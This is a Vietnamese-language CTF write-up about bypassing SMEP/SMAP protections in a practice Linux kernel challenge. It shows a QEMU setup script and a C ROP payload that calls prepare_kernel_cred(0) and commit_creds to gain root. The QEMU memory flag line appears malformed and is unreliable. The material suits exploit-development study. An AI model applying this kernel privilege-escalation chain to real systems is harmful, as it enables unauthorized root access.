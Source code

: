 # part1.1_bypass_smep

## setup

- Mục tiêu của part 1.1 lần này mình sẽ cố gắng bypass smep smap để có thể hiểu rõ hơn phần lý thuyết
- Challenge mình sử dụng lại ở `part 1`
- Một số chỉnh sửa ở `setup.sh`. Mình sẽ bật `smep, smap` và tắt `kaslr`

```bash
#!/bin/sh
qemu-system-x86_64 \
    -m 128M, smep, smep\
    -cpu kvm64 \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "console=ttyS0 nokaslr nopti quiet panic=1" \
    -s
```

- Khi mình thực hiện lại phần exploit của part 1, lớp bảo vệ smep đã hoạt động:
  ![Alt text](bin/image.png)

## Khai thác

- Tương tự như part 1, mình sẽ sửa `write_module` để bypass smep
- Mục tiêu ta sẽ như sau:

```
ROP into prepare_kernel_cred(0).
ROP into commit_creds(), with the return value from step 1 as parameter.
ROP into swapgs ; ret.
ROP into iretq with the stack setup as RIP|CS|RFLAGS|SP|SS.
```

- Điều kiện tốt nhất nếu ta có gadget `mov rdi, rax; ret` tuy nhiên nếu không gadget tốt nhất, ta sẽ phải set up tuỳ theo các gadget mà ta có:

```c
payload[off++] = pop_rdi_ret;         // return address
    payload[off++] = 0x0;                 // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8;                      // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret;     // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
    payload[off++] = 0x0;                      // dummy rbx
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
    payload[off++] = 0x0;                      // dummy rbx
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = commit_creds;             // commit_creds(prepare_kernel_cred(0))
```
